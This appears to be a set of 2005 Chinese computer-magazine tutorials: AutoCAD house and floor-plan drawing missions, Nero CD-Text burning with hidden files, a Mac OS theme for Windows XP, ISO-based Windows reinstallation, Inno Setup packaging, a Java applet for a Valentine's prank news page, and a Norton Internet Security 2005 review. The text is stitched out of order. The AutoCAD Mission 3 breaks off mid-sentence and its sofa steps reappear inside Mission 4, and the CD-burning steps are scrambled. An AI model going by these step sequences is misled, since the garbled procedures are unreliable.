| 上班族 | 辅助工作 | 辅助办公，AutoCAD又有新用途 |
| 设计师 | 太多 | 每学会一个功能都会带来新的奇迹 |

AutoCAD原是用在建筑、装潢、广告、影视、工业工程等专业领域的辅助设计软件，但只要你有想象力，万能的AutoCAD一定会为你的生活带来新的惊喜！现在就来开始完成你的AutoCAD成长任务吧！

### Mission 1

我们很小的时候都画过房子，尖尖的屋顶，烟囱冒出的白烟，绿树，太阳……那是我们用铅笔和白纸描绘的对家最早的印象，当你在电脑中重画时，定会感触良多。打开安装好的AutoCAD，用你心中的童真，拿着手中的鼠标，把那儿时的记忆唤回吧。这个任务相当简单，主要是为了让你熟悉AutoCAD基本的绘图功能，你应该尽可能把下面交给你的各种绘图工具全部应用在其中。

- 目标：用基本的绘图工具绘制一幅儿时的房子画
- 武器：直线、弧线、矩形、椭圆与圆工具

这些是AutoCAD基本的绘图工具，多在屏幕左边的常用工具按钮上。尝试操作一下这些基本工具，然后马上开始还原你小时候的记忆吧，记得一定要把它保存下来。

#### 1. 准备工作

- 第一步：新建一个CAD文件，取名为House.dwg。
- 第二步：打开刚才创建的CAD文件，点击菜单命令“格式→图形界限”，在命令行中输入左下角点的坐标值，在这里我们采用默认值：0.0000,0.0000，按“空格”键确认。
- 第三步：输入右上角点的坐标值：42000.0000,29700.0000。为绘图方便，按“F8”，取正交方式或按“F3”，取捕捉方式。
- 第四步：将鼠标移动到视图下方的状态栏上，点击鼠标右键，在快捷菜单中选择“设置”，设置捕捉类型如图1。



#### 2. 绘制轮廓

- 第一步：点击“图层特性管理器”按钮，打开“图形管理器”对话框。新建“地面”、“房屋”和“屋顶”3个层，并给每一个层选择不同的颜色。
- 第二步：切换到“房屋”层，在视图左边的工具栏中选择矩形工具，然后挨着地平线画一个矩形作为房屋的墙。
- 第三步：以同样的方法再画2个矩形作为小窗子，1个矩形作为门。之后选择圆工具，在门上画一个小圆圈作为门的把手。
- 第四步：选择直线工具，给房屋添加两条斜线，作为屋顶。此时，一个房屋的轮廓已基本完成。

#### 3. 添加点缀

下面就要为小房子加上烟囱和其他点缀的东西。

- 第一步：选择矩形工具，在屋顶的一边画出一个小矩形，然后选择分解工具，点击这个矩形将其分解为四条直线。
- 第二步：选择修剪工具，选择整个屋顶和四条直线，按“空格”键确定后剪掉所有多余的线段，这样一个烟囱就出来了。
- 第三步：选择椭圆工具，在烟囱上方画上一些圆圆的烟。我们还可以发挥想象力，为我们的房子添加其它漂亮的装饰，比如一棵树，最终效果如图2。



重要提示：用AutoCAD画图，常常需要画水平线和垂直线，因此常常需要切换到正交方式。

### Mission 2

前一个任务不过是让你和AutoCAD玩个小小的游戏，那种层次是微软画笔都可以搞定的，现在你要进入状态了，AutoCAD的威力将慢慢显现出来，掌握更多的工具将使你更加强大，能够完成更加复杂的任务。这次的任务是凭你的想象，把你所居住的房间环境用我们下面传授给你的工具简单的绘制出来，客厅、卧室、卫生间、厨房分别在哪里，门窗的位置都尽量在图中完整的表现出来。

- 目标：徒手绘制你自己住所的平面户型图
- 武器：基本绘图命令、多段线工具（用以绘制多段线的工具，多段线是AutoCAD特有的线性，它能使一条线上具有多种属性）、圆弧工具。

#### 1. 门窗洞口

- 第一步：点击“图层特性管理器”按钮，打开“图形管理器”对话框，新建“门窗”层和“阳台”2个层。
- 第二步：切换到“房屋”层，用直线和矩形工具在每面墙上绘制开门窗洞的位置。
- 第三步：用修剪工具“剪”掉多余的线，留下门窗的空洞。

#### 2. 门窗绘制

- 第一步：切换到“门窗”层，点击矩形工具，绘制一个850 × 2000的矩形。
- 第二步：以上述同样的方法绘制一个850 × 600的矩形，点击偏移工具，在命令行中输入偏移距离为60。
- 第三步：选择矩形，然后点击矩形内部令其向内侧偏移，最终形成窗户的效果。
- 第四步：对小的矩形也要进行偏移操作，并用移动工具将大小两扇窗户合在一起。
- 第五步：用同样的方法绘制出其他的窗户，如图3所示，最后用移动工具将窗户移进窗洞中即可。

#### 3. 添加阳台

- 第一步：切换到“阳台”层，选择多段线命令，在视图中点击多段线的始端，并在命令行中输入“@0,120”。
- 第二步：点击鼠标右键，在快捷菜单中选择“圆弧”。
- 第三步：根据快捷菜单的提示，设置该圆弧半径为12，角度为180，画出一个半圆。
- 第四步：点击鼠标右键，在快捷菜单中选择“第二点”，画出一段曲线。
- 第五步：再画出一段较短的曲线，作为多段线的末端。
- 第六步：同理我们用多段线绘出栏杆的另外一边，并用直线命令将栏杆补充完整，最后复制做好的栏杆到阳台之上，效果如图4所示。



#### 4. 最终效果

以同样的方法，我们把所有的门窗和阳台画好，完成整个房屋立面的绘制，最终出来的效果是不是很漂亮（如图5）？



重要提示：多段线相当于一种可以将直线、曲线和圆弧合成一体的线型，在绘制一些比较细致的图像时是非常有用。

### Mission 3

是不是常为家中的家具该布置在何处而烦恼？千里迢迢把桌子换个位置，但看起来却并不合适，费力不得好。有了AutoCAD你可以在你虚拟的家中任意搬动家具，指导你在布置得非常满意后再开始行动，谋定而后动则成。不过在这之前你需要将你家中的家具实际的尺寸采集好，将他们绘制到AutoCAD之中，这其中要运用到一些新的工具。

- 目标：为你的家添置家私
- 武器：多边形综合应用、镜像工具和图块。

#### 1. 绘制沙发

- 第一步：点击“图层特性管理器”按钮，打开“图形管理器”对话框，新建一个“家具”层。
- 第二步：切换到“家具”层，选择矩形工具，接着在命令行中输入“F”，并输入圆角的半径为20，绘制出一个700 × 600的矩形。
- 第三步：在矩形的内部用直线工具绘制一

掌握的地板绘制技术可以运用在后面的立体墙面和天花板的制作上，所以这里特别提出来，让大家先练习一下地板的制作，工具方面在搭配使用前面教给大家的各种武器的基础上，我们再来几个相当有挑战性的技术。

### Mission 4

目标：为房屋铺上地板
武器：线条编辑、复制工具、样条曲线、方形圆形阵列工具。

#### 1. 绘制客厅面砖

- 第一步：选择矩形工具，绘制出一个40 × 40的矩形。
- 第二步：选择圆工具，以矩形的四个顶点为圆心，边长为半径分别绘制四个圆。
- 第三步：用修剪工具剪掉矩形外面多余的曲线，这样一个最基本的面砖就制作完成了（见图8）。



#### 2. 绘制卫生间面砖

卫生间地板和普通地板不同，它的地板面砖相对较小，且线条比较单一，因此我们可以直接用填充命令来完成。

- 第一步：首先绘制出一个25 × 25的矩形。
- 第二步：选择图案填充工具，在“图案填充”对话框中点击“选择对象”按钮，选择刚才的矩形沙发图形。
- 第三步：点击“样例”按钮，在出来的“图案”表中选择一种比较简洁的图案“ANSI37”，并将“比例”设定为2。面砖的效果如图9所示。

#### 3. 布置地板

- 第一步：选择阵列工具，在“阵列”对话框中点击“选择对象”按钮，选择刚才的“×”图形，设置为3行3列，并把行距和列距设置为150。
- 第四步：用直线工具绘制好沙发的其它部分，最后选择镜像工具，将制作好的沙发镜像成一个双人沙发（见图6）。



#### 2. 保存为块

- 第一步：点击“创建块”按钮，并在“创建块”对话框中点击“选择对象”按钮；选择刚才的沙发图形。
- 第二步：点击“拾取点”按钮，确定插入该块时的基点，同时将该块取名为“沙发”。

#### 3. 其他家具

重复第1、2两个操作，借助AutoCAD的多种工具，制作出多个家具块（见图7）。



重要提示：在Mission 2中，我们同样可以将窗和门做成块。如果块有许多，要注意用不同的块名称加以区分。

- 第一步：选择阵列工具，在“阵列”对话框中点击“选择对象”按钮，选择刚才的面砖图形。
- 第二步：根据地面的大小设置行数和列数（行距和列距都为面砖的边长）。具体的详细操作我们将在Mission 5中讲述。
重要提示：对于面砖，我们无须将其做得特别复杂，通过阵列以后，越是简单的图形越能获得意想不到的效果。



### Mission 5

墙面会设计了、家具也会制作了、地板也会铺了，现在开始你已经具备了专业居室平面图绘制的能力，仔细丈量你的房间各个位置的尺寸，认认真真完整地将你的房间在AutoCAD中构造出来吧。这将是一份值得你自豪的作品，今后家中的摆设布置变动都可以在AutoCAD中好好做个演练，而且你离专业的家装设计专业人员也越来越近了。

目标：绘制具有专业水准的居室平面图
武器：旋转、等分、块的插入和应用。

#### 1. 绘制墙面

在此我们介绍平面图中墙体的绘制方法。

- 第一步：点击“图层特性管理器”按钮，打开“图形管理器”对话框。新建1个“轴线”层。选择直线工具，并按照自己的想法绘制一个房屋墙体的轴线布置线。
- 第二步：选择“绘图”→“多线”，接下来点击鼠标右键在快捷菜单中选择“对正”。
- 第三步：根据快捷菜单的提示，设置“对正方式”为“无”，并根据实际情况将“比例”设定为200。之后根据原先绘制好的轴线，将墙体绘好。
- 第四步：选择分解工具，并选择视图中的所有图像，将多线分解为单线，最后运用偏移和修剪工具将门窗洞口开好（见图10）。



#### 2. 绘制门窗

- 第一步：首先设置窗户，窗户的绘制比较简单，选择直线工具，在窗洞内绘制四条等分平行的线段即可。
- 第二步：选择圆工具，以门洞一边墙的中心为圆心，门洞宽度为半径绘制一个圆。
- 第三步：选择直线工具，画一条过圆心与圆相交的直线。
- 第四步：用修剪工具减去多余的线段，如图11所示。


#### 3. 家具摆放和面砖布置

- 第一步：选择插入块工具，在“插入块”对话框中点击“名称”按钮。
- 第二步：在“块”列表中选择我们以前制作成块的家具图案，在“缩放比例”中全部设为1，并根据个人爱好将家具一件一件摆放到视图中。
- 第三步：选择图案填充工具，在“图案填充”对话框中点击“选择对象”按钮，选定需要添加面砖的卫生间，然后点击“样例”按钮，在“图案”表中选择图案“ANSI37”，并将“比例”设定为10。最终效果如图12所示。



### Mission 6

是不是还沉浸在前一个任务制作好的平面户型图中呢？不要这么快满足，AutoCAD的博大精深远不是一幅户型图能包容的，我们只是稍稍运用了它的一点点功能而已，现在我们来个比较高阶的操作，将你的平面户型图立体化，营造一个全三维的空间，要做到这一步你前面制作的很多部件都需要做立体化，这是个相当艰巨的任务，这里我们只介绍比较基本的方法，更完整的指导敬请期待AutoCAD的其它制作专题。

目标：让你的房子挺立起来
武器：实体工具，其中包含了多种建模的常用立方模型，包括立方体、球体等，还包含了多种对立体模型进行编辑的工具，比如剖切和布尔运算等。

#### 1. 绘制墙体

- 第一步：在工具栏上点击鼠标右键，选择“ACAD”→“实体”以及“实体编辑”，打开“实体”和“实体编辑”工具栏。
- 第二步：点击“图层特性管理器”按钮，打开“图层管理器”对话框。
- 第三步：关闭其它的层，只剩下“轴线”层，并新建“墙体立体”层、“门窗立体”层和“屋顶立体”3个层。
- 第四步：选择复制工具，将所有轴线复制到视图的另外一个区域，并根据“实体”工具栏提供的立方体工具，沿着轴线绘制一堵3000高的墙体。
- 第五步：切换“门窗立体”层，再用同样的方法绘制门窗洞口的立方体，点击“实体编辑”工具栏中的“差集工具”。
- 第六步：分别选择墙体和门窗洞的立方体，在墙体上挖出门窗洞。此时点击“三维动态观察器”，我们可以看到三维的墙体的样子（见图13）。



#### 2. 绘制门窗和屋顶

- 第一步：切换到“门窗立体”层，凭借“实体”工具栏中的建模工具和“实体编辑”工具栏的布尔运算工具，建立门和窗的立体图形。
- 第二步：切换到“屋顶”层，然后凭借“实体”工具栏中的建模工具和剖切工具使屋顶立体化。

#### 3. 组合各立体构件

在工具栏上点击鼠标右键，选择“ACAD”→“视图”，打开“视图”工具栏。凭借移动工具和“视图”工具栏提供的多种视角，将各个构件组成一起，最终就将房屋“立”了起来。

重要提示：用AutoCAD绘制三维图形是非常吃力的，并且需要很强的耐心和细心，在此我们仅仅提供了大体的操作方案，要想成为自己的一技之长还需多多用功。

顺利完成以上6个任务，你就可以在自己的电脑上随意画出自己的家了，而且迈入了AutoCAD世界的大门，只要在生活工作中善加利用，多学习实例的制作，多跟朋友探讨，相信很快你就能熟练掌握这个强大的工程设计软件，为你的将来事业的发展加上重重的一枚砝码，继续努力吧！

（重庆 风之梦）

## 隐藏着小秘密的爱心CD

要送就要送最好的礼物，仅仅刻成一张CD，“一点技术含量都没有”，但如果我们刻录成一张隐藏了无限爱心的精选CD（将MM的照片及爱心Flash隐藏到光盘中）时，那她是什么心情呢？记住其中的奥妙，一定要让她自己去慢慢挖掘。

现在爱心CD制作完了，快去送给MM吧！

### CD刻录小技巧

#### 1. 关于CD-Text

为什么有的光盘在播放时可以显示出歌名，而有的则只显示“曲目1”呢？这其实是CD-Text在做怪。在使用CD-Text功能时，首先要确认刻录机是否支持CD-Text功能，此功能可以用Nero的Nero InfoTool工具（选择“开始→程序→Nero→Nero Toolkit→Nero InfoTool”）来检测出来（见下图）。其次还要考虑刻录软件是否支持CD-Text，当然Nero是支持的。最后还要看所用的CD随身听/光驱及CD播放软件是否支持CD-Text，注意有些SONY或其他日本品牌的CD随身听仅支持英文和日文的CD-Text。

第一步：进入Nero，在“新编辑”窗口左侧选择“CD EXTRA”项，该模式用于进行音轨及数据的混合刻录。

#### 小知识

##### CD EXTRA是什么？

中文意为CD扩展，以前又被称为CD-Plus和CD Enhanced（增强型CD），用它刻录出来的光盘有两个区段，第一个区段最多包含98条音轨，第二个区段包含ISO9660文件系统的ISO轨道以及CDPLUS和PICTURES两个目录。

第三步：按照如图3所示将要刻录的CD音频及数据分别拖拽到左侧不同窗格中，然后在左下侧的CD音轨窗格中右击任意音轨，选择“属性”，修改“标题”及“演唱者”信息，这些信息为CD-Text，用于显示歌名。接着选中左上侧数据窗口中所有文件及文件夹，右击，选择“属性”项，在弹出窗口中勾选“隐藏”即可。完成后点击“刻录当前编译”按钮，打开“刻录编译”窗口，确认“写入方式”为“光盘一次刻录”后，点击“刻录”按钮，完成刻录。



#### 小提示

一般的播放器可能无法显示CD-Text，这时可以使用JetAudio（下载地址：http://www.onlinedown.net/soft/27459.htm，汉化下载地址：http://www.onlinedown.net/soft/25480.htm）进入播放，使用时按照如图4所示方法进行操作，就可以显示出CD-Text信息了。

#### 2. 让Nero通吃主流媒体格式

网上流行的媒体格式主要有APE、RM、MP3等，但Nero默认仅支持MP3、WAV等有限的几种文件格式，如果希望让Nero支持更多的媒体格式，可以从http://www.onlinedown.net/soft/978.htm下载“Nero Burning ROM Plugin Pack 插件包”，然后将下载的文件解压至C:\Program Files\Common Files\Ahead\（以系统安装在C盘为例）目录下即可。注意，如果你用的是Nero的6.X版，则不要覆盖同名文件。安装完成后Nero就可以刻录常见的音频及视频文件了。

第二步：在窗口右侧点击“图片”按钮，然后设置CD光盘封底及封面图，具体制作方法可以参考本刊上期介绍的CD封套制作方法，当然也可以直接使用MM的照片（见图1），然后切换至“标签”选项卡，修改其下的“卷标”为“ILOVEYOU”（或其他），接着点击“音乐光盘”标签，勾选“将光盘文本写入光盘”项，并将下面的“标题”、“演唱者”等项均填写好（见图2），全部完成后，点击“新建”按钮。







#### 3. 请别用CD-RW刻CD

不要使用CD-RW刻录CD，因为它的反光率比CD-R低，否则在一些家用VCD或CD机上会无法播放。另外，一定要采用“光盘一次刻录”模式刻录音乐CD，以减少爆音。

（西安 IM）

## 资源和美丽我全要 XP完美克隆Mac OS

苹果电脑专用的Mac OS操作系统，界面极为漂亮，因此也就出现了许多能让PC模拟Mac OS界面的Windows美化软件，但它们似乎都存在着一些通病，比如：常驻内存，占用系统资源较多，会令电脑变得慢、稳定性不好等。而这里介绍的FlyakiteOSX不仅能完美克隆“苹果”，而且具有不占用系统资源，稳定性好等特点。

FlyakiteOSX
软件版本：1.0
软件大小：18MB
软件性质：免费软件
适用平台：Windows XP
下载地址：http://osx.portraitofkite.com/download.htm

### 1. Windows XP “苹果”化

安装FlyakiteOSX时，首先要求用户根据操作系统语言版本选择语言，我们选择Chinese (Simplified)（简体中文）即可（见图1）。然后还需设置FlyakiteOSX安装的部件，如果要全面的“苹果”化，建议全部勾选。之后，FlyakiteOSX会提示是否替换MSN Messenger界面，你可根据实际情况来进行选择。全部选好后，开始安装，这时FlyakiteOSX会自动将原来Windows的资源文件进行替换，大约需要20分钟左右。



### 2. 体验“苹果”

文件全部替换完成后，重启电脑，包括开机画面在内的界面都已经变为Mac OS的样子。在桌面上无论是程序栏还是图标，也都变成了苹果样式（见图2）。注意此时一些菜单中的字体会变得很小，修正方法如下：右击桌面空白处，选择“属性→外观”修改“字体大小”为“Tahoma”，这样部分菜单即可修改完成，但还是有些选项字体没有变化，如果有知道的朋友可以发信至software@cfan.com.cn。



### 3. 恢复XP的本来面貌

如果不喜欢Mac OS操作系统界面，可以在“控制面板→添加或删除程序”中将FlyakiteOSX卸载，这样桌面就恢复了。
总体上来说FlyakiteOSX是一款非常不错的软件，可以达到95%以上的Mac OS操作系统仿真度。不过还是有一小部分程序和菜单无法正常的模拟。

（辽宁 小新）

##超越ISOEMU 用ISO文件重装Windows

本刊《惊！从ISO光盘镜像引导系统》一文，对ISOEMU这款软件进行了介绍，它能从ISO光盘镜像启动系统，给维护系统带来了很大便利；但正所谓“金无足赤，人无完人”，由于使用ISOEMU时必须将启动配置文件和ISO光盘镜像放置在C分区，所以这种情况下，是无法在C分区安装系统的，不太符合我们使用电脑的习惯。那么有没有在DOS下使用ISO光盘镜像将系统安装在C分区的方法呢？很多朋友的二手笔记本电脑，没有软驱，光驱也没办法使用闪存盘引导，这时只有用硬盘里的ISO文件来重装系统了……

- 第一步：从http://www.newhua.com/cfan/200503/LOADISO.rar下载“DOS虚拟光驱启动盘”，从http://www.newhua.com/cfan/200503/仿真虚拟软驱.rar下载“仿真虚拟软驱”。
- 第二步：将仿真虚拟软驱.rar解压缩后，运行Vfloppy.exe，安装“仿真虚拟软驱”至D:\BOOT目录下，具体步骤参见2004年第23期《“保真价实”的虚拟软驱》一文。
- 第三步：用WinRAR解压LOADISO.rar后，得到文件LOADISO.exe；然后再用WinRAR解压缩LOADISO.exe，得到LOADISO.IMA（不必理睬错误提示）。
- 第四步：将LOADISO.IMA压缩为dudu.zip，覆盖D:\BOOT目录下的同名文件，这样在系统启动时使用DOS虚拟光驱启动盘就可进行引导了。注意：如果系统中安装了类似一键恢复的软件，可能造成无法正常引导。
- 第五步：重启系统，当完成BIOS检测时按下ALT键激活引导程序，选择“启动仿真虚拟软驱”后出现引导菜单（见图），进入第一项“启动ISO光盘镜像安装向导”，再选择保存ISO文件所在的分区及ISO文件，即可加载ISO光盘镜像，盘符为Z。
- 第六步：这时就可以开始安装操作了，以Windows 2000的ISO光盘镜像为例，使用“cd i386”命令进入I386目录，运行winnt.exe开始系统的安装（建议事先运行Smartdrv.exe以加快安装速度）。



**小提示**
使用本文中的方法引导系统后，不能识别NTFS文件系统分区，所以需要将ISO文件放置于非NTFS文件系统的分区上。另外ISO光盘镜像的文件名必须遵循8.3的命名规则，否则会出现无法加载的错误。
（山东 强侠）

##我的第一款Software发布啦

今天我们的任务就是，制作一个“CFAN图书馆”安装程序，别人双击后自动将其中的电子书安装到“C:\CFAN图书馆”文件夹中，同时还会在开始菜单、桌面放置相应的快捷方式。别人一点就能打开电子书阅读。

- 第一步：从http://www.newhua.com/cfan/200503/InnoSetup.rar下载Inno Setup的汉化版，并安装。
- 第二步：运行软件，打开“欢迎”向导窗口，选择“用脚本向导创建一个新的脚本文件”，然后点击“确定”。
- 第三步：点击“下一步”，根据如图所示填入“应用程序名”等信息，并点击“下一步”。
- 第四步：此步用于设置应用程序安装目录，在“应用程序基部目录”下选择“自定义”，然后在其下方的文本栏中输入“C:\”，点击“下一步”。
- 第五步：点击“应用程序主可执行文件”下的“浏览”按钮，选择电子书文件，可以是CHM、PDF、DOC等格式，完成后点击“下一步”。



- 第六步：此步用于设置“应用程序快捷方式”，如无特殊需要，直接点击“下一步”即可。
- 第七步：设置“应用程序的文档”。如果需要添加一些版权声明的文件，比如说明一下电子书的内容，你自己的个人情况等，将它们用“记事本”保存为TXT格式的文件，然后在这里使用“浏览”按钮添加即可。如果为了省事，直接点击“下一步→完成”，这时软件会提示“你想现在编译新脚本吗？”点击“是”按钮。
- 第八步：编译完成后，可以按下F9键测试软件打包是否正确。测试无误后，进入到Inno Setup安装目录下的“输出”子目录（通常为C:\Program Files\Inno Setup 5\输出\），将其中的setup.exe拷贝出来，它就是我们制作好的安装包。

这里介绍的安装包只是最简单的一种，并没有在注册表及系统目录下添加任何文件，如果要制作一些复杂的安装包，只要参考软件的帮助文件即可。
（新疆 GG）

**小提示**
在制作一些大型程序时，可以点击“其他应用程序文件”下的“添加目录”按钮，添加软件除主程序之外的其他文件。

##Java咖啡馆(10)——情人节的Applet

本期咖啡馆的实例程序是送给各位同道好友用来讨女孩子欢心的，效果如图所示。图片上有“老鼠爱大米”字样的星辰出现在蔚蓝色的天空中，再加上一些文字辅助，像模像样的新闻呢，一定给她惊喜！
事先声明，这些信息纯属虚构，仅供娱乐，祝各位情人节快乐而已，不过，用心做出来的礼物绝对比上街买的鲜花礼物更弥足珍贵吧！

###Applet一分钟入门

与咖啡馆以前介绍的Java应用程序不同，Java Applet是一种镶嵌在HTML网页中，然后由支持Java的浏览器（比如Netscape Navigator、IE以及现在流行的Firefox）下载并启动运行的Java程序。虽然Applet运行在浏览器中，由于Java本身的强大功能，它可以完成许多HTML本身无法做到的效果，比如网络通讯以及复杂的网页特效。
说到这里，大家很自然会把Applet跟Macromedia公司的Flash技术进行比较。没错，它们有很多相似之处，比如都是通过插件运行在浏览器中，能带给浏览器更丰富的交互功能（比如在线游戏），甚至可以扩展到高端手机中。相对而言，Flash的强项在于矢量动画，而且非常轻便，一个插件1MB都不到；而Applet是一个全功能技术，与J2EE技术结合起来将给你更大的想象空间，这是Flash技术不能比拟的。

编写一个Applet只需要四个步骤：
1. Import相应的类和包
2. 从Applet类继承一个子类
3. 实现某些Applet的方法
4. 嵌入网页运行
如果你有些无法理解上面的术语，赶快翻开去年的Java咖啡馆连载温故而知新吧！

###设计Applet

或许有的朋友接触过类似游戏，但那些网页基本都是通过动态网页技术，比如PHP、ASP、JSP等在服务器端绘制图片然后显示出来的。杀鸡焉用牛刀，通过最简单的Applet，然后再玩一些小技巧同样能达到完美效果，并且不需要特殊的服务器来执行动态网页，普通的静态个人主页空间里也能够实现这个效果。
首先让我们完成这个Applet程序设计，也就是完成Applet编写步骤的前三步。说穿了，这个Applet的工作只是读取背景图片然后绘制“老鼠爱大米”字样。关键问题在于，“老鼠”和“大米”应该可以通过参数控制，比如替换成“帅哥”、“美女”等，这样就可以



酷似汉字的星辰若隐若现，世界各地人们蜂拥而来争相观赏。科学家表示，白天能够达到肉眼辨别的星辰非常罕见。据称，如果名字跟星辰相似，一定能够得到神灵的祝福……

```
import java.applet.Applet;
import java.awt.Color;
import java.awt.Font;
import java.awt.Graphics;
import java.awt.Image;
import java.awt.MediaTracker;

public class NewsApplet extends Applet {
    Image snapshot;

    String from, to;

    public void init() {
        from = null == getParameter("from") ? "老鼠" : getParameter("from");
        to = null == getParameter("to") ? "大米" : getParameter("to");

        snapshot = getImage(getCodeBase(), "snapshot.jpg");
        MediaTracker tracker = new MediaTracker(this);
        tracker.addImage(snapshot, 0);

        try {
            tracker.waitForID(0);
        } catch (Exception e) {
            System.out.println("无法下载snapshot.jpg！");
        }
    }

    public void paint(Graphics g) {
        g.drawImage(snapshot, 0, 0, snapshot.getWidth(this), snapshot.getHeight(this), this);

        g.setFont(new Font("华文彩云", Font.BOLD + Font.ITALIC, 14));
        g.setColor(Color.white);

        g.drawString(from, 30, 90);
        g.drawString("爱", 50, 105);
        g.drawString(to, 70, 120);
    }
}
```

下面解释一下代码：首先，所有Applet程序都是从Applet类继承而来的，所以用extends Applet表示这种继承关系，这样NewsApplet类便拥有了Applet类的所有能力。接着是三个成员变量，snapshot用来读取snapshot.jpg图片，也就是图中显示的海洋和椰子树的图片，这个图片应该放在Eclipse项目的根目录中，即与最终的class文件处于同一个目录中；from和to用来记录你和她的名字。然后是两个方法，init()和paint()。每个Applet可以实现许多方法，有的表明生命周期，有的负责绘图和事件的触发。比如NewsApplet类中的init()方法将会在Applet每次装载的时候被调用，而paint()方法将会在每次重绘时被调用。init()函数非常适合进行资源初始化，比如程序中首先通过getParameter()函数获取网页中提供的参数，然后用getImage()读取图像资源并且用MediaTracker的waitForID()方法确保图片完成下载。paint()非常重要，它完成了所有的绘图过程。在代码中，首先通过drawImage()方法绘制图像，然后再适当的位置把星辰的文字画上去即可。OK，保存一下项目，然后可以点击Eclipse的Run菜单的Run as-Java Applet来预览这个Applet了，是不是很简单？

###结合网页

把Applet嵌入网页很简单，只要一个<applet>标签即可。拿我们的NewsApplet类举例，在Eclipse项目的根目录中新建一个sample.htm，源代码如下：

```
<html>
<body>
<applet code="NewsApplet.class" codebase="." width=480 height=384>
<param name="from" value="Prince Charming">
<param name="to" value="Cinderella">
</applet>
</body>
</html>
```

其中<applet>标签表示这里定义一个Applet，它对应的文件名是NewsApplet.class，它的相对路径是当前目录。<applet>标签中有两个<param>标签，这就是上文提到过的传递给Applet的参数。

Just Do It
如果现在用浏览器打开这个sample.htm将会得到什么结果？验证你的猜测。

除了用浏览器观察Applet，J2SE SDK提供的小程序appletviewer也非常用。打开Windows的“命令提示符”，进入sample.htm所在的目录，然后输入appletviewer sample.htm，来亲自体验一下appletviewer吧。

###与JavaScript交互

JavaScript应该是大家非常熟悉的客户端脚本语言。虽然名字中带有Java，但它和Java语言只是在语法上有类似之处，JavaScript是由浏览器解释运行，与Applet由Java虚拟机执行完全不同。不过，这两个没有血缘关系的同班同学倒是可以精诚合作，Applet实现底层的工作，JavaScript执行更高层的调用，从而实现意想不到的效果。

JavaScript可以通过多种途径操纵Applet。首先，JavaScript能调用Applet中的public的方法，这时的Applet就像一个听话的机器人一样好用。另外一种方法就是用JavaScript直接修改HTML结构，这样可以定制Applet的各种属性，有更大的灵活性。

刚才说了，我们的目标是把这个Applet制作成一种服务，即使不懂编程的朋友通过设置网页的参数就能够使用，因为不是每个人都有能力(或者精力)修改源代码的。所以，需要把Applet的参数做成可定制的，而这个只能够由JavaScript完成。虽然我们可以给Applet写一些类似于setFrom()和setTo()的方法给JavaScript调用，但是问题在于JavaScript函数的执行时机，因为Applet无法通知JavaScript它已经完成初始化操作了。

```
<script language="JavaScript">
// 动态把<applet>标签写入HTML
document.write("<center>");
document.write("<h1>爱琴海上千年罕见的奇观</h1>");
document.write("<hr>");
document.write("<p align=center>http://www.cfan.com.cn 2005年2月14日 记者GaryChan</p>");
document.write("<applet code='NewsApplet.class' codebase='.' width=480 height=384>");
document.write("<param name='from' value='" + from + "'>");
document.write("<param name='to' value='" + to + "'>");
document.write("</applet>");
document.write("<p>酷似汉字的星辰若隐若现?</p>");
document.write("<p>世界各地人们蜂拥而来争相观赏</p>");
document.write("<p>科学家表示，白天能够达到肉眼辨别的星辰非常罕见。</p>");
document.write("<p>据称，如果名字跟星辰相似，一定能够得到神灵的祝福。</p>");
</script>
<form>
<p>你的名字:<input name="from" type="text" id="from" width="100">
她的名字:<input name="to" type="text" id="to" width="100">
<input type="submit" name="Submit" value="提交">
</p>
</form>
```

由于JavaScript的语法与Java还是非常接近的，所以请参考注视自行阅读代码。需要注意的是，由于Java默认的字符集是Unicode，所以把网页的内码设成UTF-8可以省却非常多的麻烦。

根据这个Applet与JavaScript结合编程思路，你能够做出许多的创意，记得跟大家分享哦。

###我只想用这个Applet

这个Applet已经上传至http://www.cfan.com.cn/program/200503/index.htm，欢迎大家实行拿来主义。你可以填入你的名字(比如:至尊宝)以及她的名字(比如:白晶晶)，提交以后便可以看到最终结果。然后把地址栏中长长的一串URL全部复制给你的她，当她用浏览器打开的时候便可以看到你精心为她准备的情人节礼物了。

如果你无法得到正确的结果，有这么几种可能：

+ 需要升级Java虚拟机。Windows内置的Microsoft Virtual Machine是基于1997年Java1.1版本的，距今已经有相当长的时间了。另一方面，2007年12月以后微软公司便没有义务在Windows中内置Java虚拟机。现在的J2SE已经推出了5.0版本，是一个成熟而且被广泛采用的技术。所以，你应该毫不犹豫地把你的系统中的VM升级到Sun公司的最新版本。注意，微软公司虽然极力推荐人们把Java程序向他们公司的C#和J#移植，但是它们都不是跨平台的。更有甚者，由于微软的不正当竞争，单方面提早从Windows系统中去掉了对Java的支持，也纵然罚了许多款，也无法挽救Windows XP默认不安装Java运行时环境的局面。所以，要看到Applet的执行结果，首先请到http://java.sun.com/j2se/1.5.0/download.jsp下载并安装Java运行时环境。
+ 浏览器必须支持JavaScript的运行。
+ MyIE等第三方浏览器有可能屏蔽Applet，请用IE浏览该网页。欢迎到garychan.3322.org提出建议或者意见，让我们共同享受Java技术带来的体验。

##2005年的网络安全套餐——Norton Internet Security 2005

在这个“天下皆毒”的宽带时期，不管你是浏览网页、使用即时通讯工具、在聊天室聊天、还是使用P2P软件或E-mail都有可能中毒，于是很多杀毒软件厂商推出了网络安全的整合解决方案，而赛门铁克公司最新出品的Norton Internet Security 2005(以下简称NIS 2005)便是其中的佼佼者。它由Norton AntiSpam 2005(NAS)、Norton AntiVirus 2005(NAV)和Norton Personal Firewall 2005(NPF)组成。

NAS是一款反垃圾邮件软件，它可以与Outlook、Outlook Express完美结合，支持邮件列表，支持POP3账号，让你的E-Mail不会出现病毒和垃圾邮件(见图1)。对于NAV，大家应该都很熟悉，它是很多朋友的首选杀毒软件，可以帮你查杀各种病毒、木马、间谍及其他有害程序。NPF则是一款专门的网络防火墙，与Personal Privacy Control 2005相配合，可以轻松实现网络及个人隐私保护。在2004年24期《网络安全特警 Norton Internet Security》一文本刊已经介绍过NIS 2004的使用，还不知道NIS如何使用的朋友可以找来看看。



在兼容性及易用性上NIS 2005与以前的版本相比有很大提升，在我们测试中，NIS 2005完全兼容Windows XP SP2，并能被安全中心所识别。而且NIS 2005的主窗口可根据不同安全状态改变为不同颜色(不同安全状态分红、黄、绿三色)，如果窗口变成了红色，那你就可就要小心了(见图2)。



另外，不得不提到的是NIS 2005将这三款软件进一步融合，比如集成任务栏图标为一个，所有设置均可通过它进行设置。增加了“爆发警报”功能可以让你在最短时间内进行“防御”(见图3)。



